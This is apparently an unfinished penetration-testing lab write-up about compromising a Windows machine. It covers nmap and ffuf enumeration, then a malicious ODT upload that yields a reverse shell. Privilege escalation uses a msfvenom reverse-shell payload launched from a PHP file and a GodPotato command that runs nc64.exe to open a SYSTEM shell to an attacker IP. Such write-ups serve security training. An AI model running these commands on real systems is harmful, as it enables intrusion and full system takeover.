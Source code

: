 #InProgress 
```IP
192.168.229.169
```
# Enumeration
Its blocking pings
```
sudo nmap -sCV 192.168.229.169 -vvv -oA enum/nmap.full -p- -Pn
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121102019.png?raw=true)
It is a Windows machine most likely running an Apache httpd 2.4.48 on port 80
## HTTP 80
```
ffuf -u http://192.168.229.169/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121095928.png?raw=true)
Submiting php
File is not valid. Please submit ODT file
# Exploitation
creation of a malicious file

https://github.com/0bfxgh0st/MMG-LO/blob/main/mmg-odt.py
```
python mmg-odt.py windows 192.168.45.190 80
```
we upload the file.odt and
we get the reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121115800.png?raw=true)
# PrivEsc

## Manual
SYSTEMINFO
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121120038.png?raw=true)
LISTENING PORTS
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121120211.png?raw=true)
SOFTWARE
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121120256.png?raw=true)

SERVICES
```
ResumeService1         Running C:\Program Files\nssm-2.24\win64\nssm.exe
ApacheHTTPServer       Running "C:\Xampp\apache\bin\httpd.exe" -k runservice
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121122954.png?raw=true)
we can upload files to C:\xampp\htdocs\
we craft a shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f exe -o shell.exe
```
we craft a run.php file
```
<?php $exec = system('shell.exe', $val) ?>
```
we copy both files to C:\xampp\htdocs\
and run run.php which will run shell.exe
we are apache with SeImpersonatePrivilege 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121132253.png?raw=true)
```
.\GodPotato-NET4.exe -cmd ".\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.190 1234"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121132809.png?raw=true)

## Automated

### Peass
```
File: C:\Program Files (x86)\Common Files\Java\Java Update\jusched.exe (Unquoted and Space detected) - C:\
```
### Mimikatz

# Lateral Movement
